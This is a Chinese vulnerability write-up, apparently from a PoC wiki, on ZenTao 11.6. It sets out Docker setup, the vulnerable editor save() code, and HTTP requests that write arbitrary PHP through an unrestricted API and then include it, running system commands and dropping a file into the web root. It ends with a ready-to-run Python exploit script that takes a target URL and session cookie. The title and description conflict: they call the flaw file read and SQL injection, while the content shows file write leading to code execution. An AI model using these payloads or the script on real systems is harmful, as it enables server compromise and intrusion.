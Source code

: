 # 禅道 11.6版本 任意文件读取漏洞

## 漏洞描述

禅道 11.6 版本中对用户接口调用权限过滤不完善，导致调用接口执行SQL语句导致SQL注入

## 影响版本

> [!NOTE]
>
> 禅道 11.6

## 环境搭建

这里使用docker环境搭建

```
docker run --name zentao_v11.6 -p 8084:80 -v /u01/zentao/www:/app/zentaopms -v /u01/zentao/data:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d docker.io/yunwisdom/zentao:v11.6
```

访问 **http://xxx.xxx.xxx.xxx:8084** 按步骤安装即可

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞复现

这里造成漏洞的原因同样是调用接口权限无限制的原因

接口出现漏洞的原因具体参考可以查看上一篇 **禅道 11.6版本 SQL注入漏洞** 关于此漏洞的完整分析

查看**module/api/ediyor/moudel.php**下的**save方法**

```php
public function save($filePath)
    {
        $fileContent = $this->post->fileContent;
        $evils       = array('eval', 'exec', 'passthru', 'proc_open', 'shell_exec', 'system', '$$', 'include', 'require', 'assert');
        $gibbedEvils = array('e v a l', 'e x e c', ' p a s s t h r u', ' p r o c _ o p e n', 's h e l l _ e x e c', 's y s t e m', '$ $', 'i n c l u d e', 'r e q u i r e', 'a s s e r t');
        $fileContent = str_ireplace($gibbedEvils, $evils, $fileContent);
        if(get_magic_quotes_gpc()) $fileContent = stripslashes($fileContent);

        $dirPath = dirname($filePath);
        $extFilePath = substr($filePath, 0, strpos($filePath, DS . 'ext' . DS) + 4);
        if(!is_dir($dirPath) and is_writable($extFilePath)) mkdir($dirPath, 0777, true);
        if(is_writable($dirPath))
        {
            file_put_contents($filePath, $fileContent);
        }
        else
        {
            die(js::alert($this->lang->editor->notWritable . $extFilePath));
        }
    }

```

**$filePath参数和$fileContent参数** 我们是可控的

调用方法往 **/tmp**写入一个**phpinfo()**

```
http://xxx.xxx.xxx.xxx/api-getModel-editor-save-filePath=/tmp/shell.php

POST:fileContent=<?php phpinfo();?>
```

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-24.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-25.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

在利用 禅道 11.6版本 任意文件读取漏洞 第二种方法来文件包含

```
http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1
```

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-26.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

也可以写入网站目录中

先获取地址

```
http://xxx.xxx.xxx.xxx/api-getModel-editor-save-filePath=/tmp/shell

POST：fileContent=<?php system('find / -name ioncube.php')?>');?>
```

访问**http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1**

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-27.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

得到目录为 **/app/zentaopma/www**

请求改为

```
http://xxx.xxx.xxx.xxx/api-getModel-editor-save-filePath=/tmp/shell

fileContent=<?php file_put_contents('/app/zentaopms/www/xxx.php', '<?php phpinfo();?>');?>
```

再去访问**http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1**则会再网站目录下生成 xxx.php 文件

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-28.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-29.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞利用POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                        \033[0m')
    print('+  \033[34mVersion: zentao version = 11.6                                    \033[0m')
    print('+  \033[36m使用格式: python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mZentaosid   >>> xxxxxxxxxxxxxx(cookie字段)                          \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    version_url = target_url + "/www/index.php?mode=getconfig"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.get(url=version_url, timeout=20, headers=headers)
        version = json.loads(response.text)['version']
        print("\033[32m[o] 禅道版本为:{}\033[0m".format(version))

    except Exception as e:
        print("\033[31m[x] 获取版本失败 \033[0m", e)
        sys.exit(0)

def POC_2(target_url, zentaosid):
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie": "zentaosid={}".format(zentaosid)
    }
    data = {"fileContent":"<?php phpinfo();?>"}
    write_url = target_url + "/api-getModel-editor-save-filePath=/tmp/test"
    try:
        response = requests.post(url=write_url, data=data, headers=headers, timeout=10)
        print("\033[32m[o] 尝试写入php文件... \033[0m")
    except:
        print("\033[31m[x] 写入php文件失败 \033[0m")
        sys.exit(0)

def POC_3(target_url, zentaosid):
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie": "zentaosid={}".format(zentaosid)
    }
    vuln_url = target_url + "/api-getModel-api-getMethod-filePath=/tmp/test/1"
    try:
        response = requests.get(url=vuln_url, headers=headers, timeout=10)
        if "System" in response.text:
            print("\033[32m[o] 成功写入文件，存在漏洞, 访问 {}/api-getModel-api-getMethod-filePath=/tmp/test/1/ 查看 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 读取php文件失败 \033[0m")
    except:
        print("\033[31m[x] 读取php文件失败 \033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    zentaosid  = str(input("\033[35mZentaosid >>> \033[0m"))
    POC_1(target_url)
    POC_2(target_url, zentaosid)
    POC_3(target_url, zentaosid)
```

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-30.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

